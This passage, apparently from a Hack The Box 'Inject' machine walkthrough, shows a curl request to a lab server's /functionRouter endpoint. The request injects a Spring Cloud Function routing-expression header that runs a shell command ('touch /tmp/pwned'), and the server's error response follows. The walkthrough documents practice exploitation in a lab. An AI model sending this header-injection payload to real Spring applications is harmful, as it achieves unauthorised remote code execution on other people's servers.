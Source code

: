 <p align="center">
<img src="/assets/hackthebox/img/machines/easy/inject/17.png">
</p>

```bash
➜  content curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/8.5.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 500
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 02 Jun 2024 18:52:19 GMT
< Connection: close
<
* Closing connection
{"timestamp":"2024-06-02T18:52:19.471+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}%                                   
```
